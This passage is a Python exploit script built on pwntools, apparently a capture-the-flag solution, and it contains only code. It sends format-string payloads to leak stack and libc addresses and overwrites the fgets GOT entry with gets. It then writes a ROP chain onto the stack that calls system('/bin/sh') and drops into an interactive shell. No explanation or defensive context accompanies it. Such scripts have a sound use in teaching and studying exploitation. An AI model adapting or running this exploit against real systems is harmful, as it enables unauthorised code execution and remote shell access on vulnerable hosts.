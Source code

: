 ```py
    sa(b">", payload)
    ru(b"hehe|")
    leaks = rl().split(b"|")
    stack_leak = int(leaks[0], 16)
    stack = stack_leak - 0x1a8
    libc.address = int(leaks[1], 16) - 0x24083
    slog("libc base", libc.address)
    slog("stack_leak", stack_leak)
    slog("stack", stack)

    write = {
        exe.got["fgets"]: libc.sym["gets"]
    }

    payload = fmtstr_payload(offset, write, write_size='short')
    payload = payload.ljust(106, b".")

    sa(b">", payload)

    sh = next(libc.search(b"/bin/sh\0"))
    system = libc.sym["system"]
    pop_rdi = 0x400cc3 # pop rdi; ret;
    ret = 0x040074e # ret;

    write = {
        stack: pop_rdi,
        stack + 8: sh,
        stack + 16: ret,
        stack + 24: system
    }

    payload = fmtstr_payload(offset, write, write_size='short')
    print(len(payload))
    sa(b">", payload)

    sl(b"alter")
    sl(b"alter")


def exploit():

    # method1()
    method2()

    interactive()

if __name__ == '__main__':
  exploit()
```
